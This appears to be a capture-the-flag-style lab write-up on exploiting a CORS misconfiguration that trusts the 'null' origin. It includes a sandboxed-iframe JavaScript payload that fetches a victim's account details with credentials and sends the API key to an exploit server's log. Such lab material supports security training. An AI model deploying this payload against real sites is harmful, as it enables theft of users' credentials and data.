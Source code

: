 ----

### Lab description

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

#### Lab solution

1. Login with `wiener`
2. Go to `/accountDetails` endpoint
3. If you add `Origin` header with `null` value, the app will reflect
![](/static/img/Pasted_image_20230724212742.png)
4. To create `null` Origin you need to create the follow HTML code inside the exploit server:

```html
`<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText); }; </script>"></iframe>`

```
5. Store and click on send the payload to the victim

![](/static/img/Pasted_image_20230724213144.png)